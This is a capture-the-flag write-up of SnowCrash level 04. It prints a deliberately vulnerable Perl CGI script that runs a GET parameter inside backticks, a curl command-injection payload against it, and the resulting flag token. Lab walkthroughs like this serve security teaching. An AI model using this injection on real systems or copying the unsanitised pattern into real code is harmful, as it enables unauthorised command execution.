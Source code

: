 # Level 04 - Command Injection via Perl CGI Script

In this level, we discover and exploit a Perl CGI script running locally that improperly handles input and executes it without sanitization, allowing for command injection.

---

## Step 1: Inspect the Home Directory

```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

We see a **SUID Perl script**:

```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

---

## Step 2: Read the Script

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This script is a basic CGI program that:

- Uses `param("x")` to retrieve a GET parameter
- Executes it inside a backtick call: `` `echo $y` ``

This is a classic **unsanitized input** leading to **command injection**.

---

## Step 3: Exploit via `curl`

```bash
curl 'localhost:4747?x=`getflag`'
```

Output:

```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

## ✅ Summary

- Vulnerable Perl CGI script executes unsanitized user input.
- Injected a backtick command to execute `getflag`.
- Successfully escalated privileges.

### Flag Token:

```text
ne2searoevaevoem4ov4ar8ap
```

Quick and powerful example of web-based command injection.
